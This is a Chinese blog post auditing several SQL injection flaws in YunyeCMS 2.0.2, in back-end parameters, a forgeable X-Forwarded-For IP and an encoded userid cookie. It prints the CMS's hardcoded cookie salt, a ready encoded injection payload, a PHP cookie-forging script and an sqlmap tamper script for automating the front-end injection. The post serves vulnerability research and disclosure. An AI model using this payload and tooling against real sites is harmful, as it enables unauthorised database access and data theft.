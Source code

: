 ```yaml
---
layout: post
title: 云业CMS的多处SQL注入审计分析
noToc: true
date: 2020-02-28 12:30:00 +0800
tags: WEB安全 漏洞分析 代码审计
cover: '../assets/' 
---
```


### 云业CMS的多处SQL注入审计分析

#### 前言

某天挖完洞闲来无事浏览CNVD看到某CMS更新了一溜的SQL注入，似乎起了强迫症，于是准备分析一下，顺便填充一下工作内容（哈哈题外话请忽略），其实是个小众CMS,分析起来也不算难，后台的比较简单，主要看前台的。

![image-20200228115449573]({{site.baseurl}}/assets/images/YunyeCMS/1.png)

版本：2.0.2

#### SQL注入1-后台de***.php

对应CNVD编号：CNVD-2020-12871

漏洞出现在在后台文件de`***.php中，`de`***_add`函数对GET和POST参数先进行了是否empty判断，最终将传入的几个参数传给了edit_admin_department。

![image-20200226181005649]({{site.baseurl}}/assets/images/YunyeCMS/2.png)

跟入edit_admin_department，对参数依次进行了处理，但是发现只有`$departmentname,$olddepartmentname`进行了usafestr安全过滤，漏网的`$id`拼接到了sql语句中执行。

![image-20200226181643399]({{site.baseurl}}/assets/images/YunyeCMS/3.png)

最终导致了SQL注入。

![image-20200226182123595]({{site.baseurl}}/assets/images/YunyeCMS/4.png)

#### SQL注入二-lo***.php

这原本是在后台目录下但其实也是一个不需要验证后台登录的前台注入。

对后台文件的功能点分析。在`lo***.php`中功能adminlogin先获取了登陆者的ip,该ip参数的传参过程为`getip()->$logiparr->encode->$logipstr`然后拼接到$sql语句中lastip,中间并未进行其他过滤。

![image-20200226183451462]({{site.baseurl}}/assets/images/YunyeCMS/5.png)

再来查看getip()

![image-20200226183542111]({{site.baseurl}}/assets/images/YunyeCMS/6.png)

该函数返回获取的ip,而HTTP_X_FORWARDED_FOR为我们可控的http头部。

![image-20200227092133443]({{site.baseurl}}/assets/images/YunyeCMS/7.png)

![image-20200227093153347]({{site.baseurl}}/assets/images/YunyeCMS/8.png)

#### SQL注入3-roe.php

文件role.php同理对参数id没有进行过滤只进行了是否empty判断，最终在edit_admin_role中进行SQL查询。

![image-20200227183143211]({{site.baseurl}}/assets/images/YunyeCMS/9.png)

![image-20200227183219541]({{site.baseurl}}/assets/images/YunyeCMS/10.png)

根据查询结果返回存在或not exit是一个盲注直接丢入sqlmap秒出结果。

![image-20200227183444681]({{site.baseurl}}/assets/images/YunyeCMS/11.png)

同类问题的还有yunyecmsmodel.php等文件自行发现，直接附上结果。

![image-20200227184406505]({{site.baseurl}}/assets/images/YunyeCMS/12.png)

接着我们继续来看前台的。

#### 前台sql注入

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![image-20200228104938020]({{site.baseurl}}/assets/images/YunyeCMS/13.png)

经过了加密处理，根据解密算法**yunyecms_strdecode**可以在corefun.php找到对应的加解密算法

![image-20200228105314445]({{site.baseurl}}/assets/images/YunyeCMS/14.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![image-20200228105919061]({{site.baseurl}}/assets/images/YunyeCMS/15.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![image-20200228110210672]({{site.baseurl}}/assets/images/YunyeCMS/16.png)

`YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==`

payload生成代码front-test.php为：

```php
<?php
function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
}
function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	$retstr=base64_decode($string);
	$SHA1salt=substr(sha1($salt),0,35);
	$md5salt=substr(md5($salt),8,18);
    $retstr=substr($retstr,strlen($md5salt));
    $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
	return base64_decode($retstr);
}
if ($_GET['cookie']) {
	$string=$_GET['cookie'];
	$userid=yunyecms_strdecode($string);
	echo $userid;
}
if($_GET['userid']){
	$string=$_GET['userid'];
	$cookie=yunyecms_strencode($string);
	echo $cookie;
}
```

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![image-20200228110858844]({{site.baseurl}}/assets/images/YunyeCMS/17.png)

跟入pagelist函数，将$where拼接到了sql查询语句中$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![image-20200228103445978]({{site.baseurl}}/assets/images/YunyeCMS/18.png)

详细查看下该函数，直接进行了sql查询。

![image-20200228103529498]({{site.baseurl}}/assets/images/YunyeCMS/19.png)

附上截图

![image-20200228114420346]({{site.baseurl}}/assets/images/YunyeCMS/20.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![image-20200228153442956]({{site.baseurl}}/assets/images/YunyeCMS/21.png)

对应tamper的的脚本为

`yunyecms_front_sqli_tamp.py`

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import base64
import hashlib
from lib.core.enums import PRIORITY
from lib.core.settings import UNICODE_ENCODING

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def md5(data):
	hash_md5 = hashlib.md5(data)
	md5data=hash_md5.hexdigest()[8:18]
	return md5data
def sha1(data):
	string_sha1=hashlib.sha1(data).hexdigest()[0:35]
	return string_sha1

def yunyecms_strencode(string):
	salt='~^y#u%n$y^e*c%m^s^~'
	return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
def tamper(payload, **kwargs):
    """
    Base64-encodes all characters in a given payload

    >>> tamper("1' AND SLEEP(5)#")
    'MScgQU5EIFNMRUVQKDUpIw=='
    """

    return yunyecms_strencode(payload) if payload else payload
```

搞定完事~